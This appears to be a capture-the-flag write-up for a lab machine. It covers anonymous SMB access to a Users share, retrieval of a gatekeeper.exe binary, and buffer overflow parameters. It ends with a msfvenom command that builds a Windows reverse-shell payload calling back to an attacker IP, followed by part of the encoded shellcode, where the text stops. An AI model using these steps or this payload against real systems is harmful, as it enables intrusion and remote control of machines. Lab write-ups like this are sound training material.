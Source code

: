 Using `smbclient` to access the `Users` share anonymously:

    smbclient \\\\$MACHINE_IP\\Users

    Enter WORKGROUP\root's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                  DR        0  Thu May 14 21:57:08 2020
      ..                                 DR        0  Thu May 14 21:57:08 2020
      Default                           DHR        0  Tue Jul 14 03:07:31 2009
      desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
      Share                               D        0  Thu May 14 21:58:07 2020
                      7863807 blocks of size 4096. 3876715 blocks available

    smb: \> cd Share
    smb: \Share\> ls
      .                                   D        0  Thu May 14 21:58:07 2020
      ..                                  D        0  Thu May 14 21:58:07 2020
      gatekeeper.exe                      A    13312  Mon Apr 20 01:27:17 2020
    
                    7863807 blocks of size 4096. 3876715 blocks available

Getting the `gatekeeper.exe` file:

    smb: \Share\> get gatekeeper.exe
    getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (5.1 KiloBytes/sec) (average 5.1 KiloBytes/sec)

Start a web server on the Kali VM in the directory with the files (to download the files to the Windows VM):

    python3 -m http.server

## Exploiting buffer overflow

Get the binary file from the Kali box and follow the [stack-based buffer overflow howto](overflow1.md) 
for creating BoF scripts, with:

    Offset: 146
    JMP ESP address: 080414C3
    Bad characters: 00, 0a

Generate payload with `msfvenom` (`tun0` IP address of KALI on the THM network):

    # msfvenom -p windows/shell_reverse_tcp LHOST=10.18.22.77 LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of c file: 1506 bytes
    unsigned char buf[] = 
    "\xda\xcf\xd9\x74\x24\xf4\xb8\x4e\x9a\xa4\x81\x5a\x33\xc9"
    "\xb1\x52\x83\xc2\x04\x31\x42\x13\x03\x0c\x89\x46\x74\x6c"
    "\x45\x04\x77\x8c\x96\x69\xf1\x69\xa7\xa9\x65\xfa\x98\x19"
    "\xed\xae\x14\xd1\xa3\x5a\xae\x97\x6b\x6d\x07\x1d\x4a\x40"
    "\x98\x0e\xae\xc3\x1a\x4d\xe3\x23\x22\x9e\xf6\x22\x63\xc3"
    "\xfb\x76\x3c\x8f\xae\x66\x49\xc5\x72\x0d\x01\xcb\xf2\xf2"
    "\xd2\xea\xd3\xa5\x69\xb5\xf3\x44\xbd\xcd\xbd\x5e\xa2\xe8"
    "\x74\xd5\x10\x86\x86\x3f\x69\x67\x24\x7e\x45\x9a\x34\x47"
    "\x62\x45\x43\xb1\x90\xf8\x54\x06\xea\x26\xd0\x9c\x4c\xac"
    "\x42\x78\x6c\x61\x14\x0b\x62\xce\x52\x53\x67\xd1\xb7\xe8"